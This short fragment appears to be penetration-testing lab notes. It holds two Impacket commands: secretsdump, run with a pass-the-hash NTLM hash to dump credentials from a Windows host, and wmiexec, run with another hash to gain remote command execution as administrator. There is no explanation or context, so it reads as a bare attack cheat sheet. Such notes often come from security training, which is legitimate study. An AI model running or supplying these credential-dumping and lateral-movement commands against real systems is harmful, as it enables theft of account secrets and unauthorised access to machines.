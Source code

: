 /usr/bin/impacket-secretsdump offsec@192.168.175.10 -hashes aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e

/usr/bin/impacket-wmiexec -hashes aad3b435b51404eeaad3b435b51404ee:3fee04b01f59a1001a366a7681e95699 administrator@10.11.1.123


